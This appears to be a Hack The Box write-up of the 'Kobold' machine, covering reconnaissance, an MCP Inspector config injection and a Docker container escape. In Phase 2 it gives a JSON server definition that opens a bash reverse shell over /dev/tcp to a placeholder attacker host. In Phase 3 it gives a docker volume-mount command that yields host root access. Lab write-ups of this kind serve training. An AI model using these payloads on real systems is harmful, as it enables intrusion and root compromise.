





# HTB: Kobold

**Machine Write-up**

## Executive Summary

Kobold is a Linux machine centered on AI/MCP (Model Context Protocol) tooling. It hosts an internal operations platform (Arcane), an MCP Inspector instance used to test MCP servers, and a PrivateBin deployment, all reachable through virtual-host routing on a wildcard TLS certificate.

The attack chain consists of two phases: initial access via **CVE-2026-23744**, a command-injection flaw in how the MCPJam Inspector handles a user-supplied MCP server configuration, granting a reverse shell as the low-privileged user `ben`; and privilege escalation via a misconfigured `docker` group membership that unexpectedly allowed `newgrp docker` to succeed, enabling a classic Docker volume-mount container escape to root.

---

## Phase 1: Reconnaissance & Enumeration

### Network Scanning

An initial nmap scan against the target revealed the following services:

- Port 22 — OpenSSH 9.6p1 (Ubuntu)
- Port 80 — nginx 1.24.0 (redirects to HTTPS)
- Port 443 — nginx 1.24.0, TLS certificate with wildcard SAN `*.kobold.htb`
- Port 3552 — Golang net/http server (unidentified by nmap's service DB)

The wildcard SAN (`*.kobold.htb`) on the TLS certificate was the key indicator that the application spans multiple virtual hosts, not just the main domain.

```bash
nmap <Machine_IP> -sV -sC -O -p 1-10000

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
443/tcp  open  ssl/http nginx 1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
|_http-title: Kobold Operations Suite
3552/tcp open  http     Golang net/http server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

### Web & Subdomain Enumeration

Browsing to the main domain revealed a landing page for an internal platform called "Kobold Operations Suite", describing service/container management, automation agents, and AI-driven insights — confirming the AI/MCP theme of the box.


*Figure 1 — Kobold Operations Suite landing page (kobold.htb), describing service/container management and AI-agent features.*

Guessing at the wildcard subdomains suggested by the certificate surfaced three distinct services:

- `kobold.htb:3552/login` — "Arcane", a container/operations management panel
- `bin.kobold.htb` — a PrivateBin instance
- `mcp.kobold.htb` — an MCPJam Inspector instance, used to configure and test MCP servers


*Figure 2 — Arcane login portal (kobold.htb:3552/login), the internal container-management panel later reached via privilege escalation.*


*Figure 3 — PrivateBin instance (bin.kobold.htb), a self-hosted encrypted pastebin present on the box.*


*Figure 4 — MCPJam Inspector landing page (mcp.kobold.htb), showing no MCP servers connected by default.*

---

## Phase 2: Initial Foothold — MCP Server Configuration Injection (CVE-2026-23744)

The MCPJam Inspector allows a user to add and configure an MCP server, including an option to import a server definition directly from a JSON configuration block.


*Figure 5 — MCPJam Inspector "Import Servers from JSON" dialog, the entry point used to register a malicious MCP server definition.*

Research into the MCPJam Inspector's handling of imported MCP server definitions pointed to CVE-2026-23744: the `command` field of a server definition is executed by the Inspector's backend without adequate validation, allowing arbitrary command execution on the host running the Inspector.

A malicious server definition was crafted, using bash to open a reverse shell to an attacker-controlled listener, and imported via the JSON dialog shown in Figure 5:

```json
{
  "mcpServers": {
    "exploit-server": {
      "command": "bash",
      "args": [
        "-c",
        "bash -i >& /dev/tcp/<Attacker_IP>/<Attacker_PORT> 0>&1"
      ]
    }
  }
}
```

Listener output confirmed code execution as the low-privileged user `ben`:

```bash
nc -lvnp <Attacker_PORT>
listening on [any] <Attacker_PORT> ...
connect to [<Attacker_IP>] from (UNKNOWN) [<Machine_IP>] 54436
bash: cannot set terminal process group (1594): Inappropriate ioctl for device
bash: no job control in this shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ ls -la /home/ben
total 44
drwxr-x--- 5 ben  ben  4096 Jul  5 13:23 .
drwx------ 2 ben  ben  4096 Jul  5 11:35 .ssh
-rw-r----- 1 root ben    33 Jul  5 11:32 user.txt
```

---

## Phase 3: Privilege Escalation — Docker Group Misconfiguration & Container Escape

### Discovering Unexpected Docker Access

Standard privilege-escalation enumeration started with checking group memberships and the Docker socket. The `ben` user was not listed as a member of the `docker` group, and direct access to the Docker socket was denied as expected:

```bash
id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)

cat /etc/group | grep docker
docker:x:111:alice

docker ps
permission denied while trying to connect to the Docker daemon socket at
unix:///var/run/docker.sock: dial unix /var/run/docker.sock: connect: permission denied
```

Despite `ben` not being a listed member of the `docker` group, the system allowed the group to be assumed anyway — a misconfiguration that granted effective Docker access:

```bash
newgrp docker
docker ps

CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                      NAMES
83e39a76f4e6   privatebin/nginx-fpm-alpine:2.0.2   "/bin/sh"                37 minutes ago   Up 37 minutes   8080/tcp                   sharp_engelbart
4c49dd7bb727   privatebin/nginx-fpm-alpine:2.0.2   "/etc/init.d/rc.local"   4 months ago     Up 5 hours      127.0.0.1:8080->8080/tcp   bin
```

### Container Escape via Host Volume Mount

Membership in the `docker` group — even acquired unexpectedly — is a well-known root-equivalent privilege: any user who can run docker can mount the host filesystem into a container and access it as root inside that container. A new container was launched from the existing PrivateBin image, mounting the host's root filesystem and forcing a root shell via the entrypoint:

```bash
docker run -v /:/mnt --rm -it --user root --entrypoint /bin/sh \
  privatebin/nginx-fpm-alpine:2.0.2

/var/www # ls -la /mnt/root
/mnt/root:
arcane_linux_amd64  data  root.txt
```

With the host's `/` mounted at `/mnt` inside the root-owned container shell, `/mnt/root` was equivalent to `/root` on the actual host, giving direct read access to `root.txt` and to the Arcane service binary and its data — completing full compromise of the machine.

---

## Techniques Summary

| Technique | Description | Impact |
|---|---|---|
| Subdomain/VHost Enumeration | Wildcard TLS SAN (`*.kobold.htb`) revealed Arcane, PrivateBin, and MCPJam Inspector on separate virtual hosts | Full attack surface mapping |
| MCP Server Config Injection (CVE-2026-23744) | MCPJam Inspector executes the `command` field of an imported MCP server definition without validation | Remote code execution as `ben` |
| Docker Group Misconfiguration | `newgrp docker` succeeded despite `ben` not being a listed docker group member | Effective root-equivalent Docker access |
| Docker Volume-Mount Container Escape | Host `/` mounted into a container launched with `--user root` | Full read access to host filesystem, `root.txt` |
